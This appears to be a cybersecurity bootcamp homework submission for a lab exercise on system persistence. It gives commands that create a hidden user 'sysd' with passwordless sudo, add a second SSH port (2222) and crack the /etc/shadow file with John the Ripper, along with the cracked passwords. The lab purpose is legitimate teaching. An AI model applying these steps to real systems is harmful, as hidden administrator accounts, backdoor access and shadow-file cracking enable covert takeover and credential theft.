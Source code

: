 # Bash-Scripting-and-Programming

## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `Your solution command here`

useradd --no-create-home sysd

2. Give your secret user a password: 
    - `Your solution command here`

passwd sysd

3. Give your secret user a system UID < 1000:
    - `Your solution command here`

usermod -u 0989 sysd

4. Give your secret user the same GID:
   - `Your solution command here`

groupmod -g 0989 sysd


5. Give your secret user full `sudo` access without the need for a password:
   -  `Your solution command here`

visudo
( added = ) sysd    ALL=(ALL:ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:

$ sudo -l

Matching Defaults entries for sysd on scavenger-hunt:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User sysd may run the following commands on scavenger-hunt:
    (ALL : ALL) NOPASSWD:ALL

( 2nd test )sudo useradd tester ( did not inquire for a password )

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

sudo vim /etc/ssh/sshd_config
beneath #Port 22 add line "Port 2222" 
    
**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:

sudo service ssh restart

2. Exit the `root` account:

exit

3. SSH to the target machine using your `sysd` account and port `2222`:

ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:

sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
sudo -s

snap install john-the-ripper

cat /etc/shadow | awk '{print $1, $2}' >> /etc/passwords.txt

/usr/sbin/john /etc/passwords.txt

RESULTS =

Created directory: /root/.john
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
sysd             (sysd)
computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
Goodluck!        (student)
8g 0:00:02:50 100% 2/3 0.04687g/s 644.6p/s 660.9c/s 660.9C/s Missy!..Jupiter!
Use the "--show" option to display all of the cracked passwords reliably
Session completed

---

Â© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

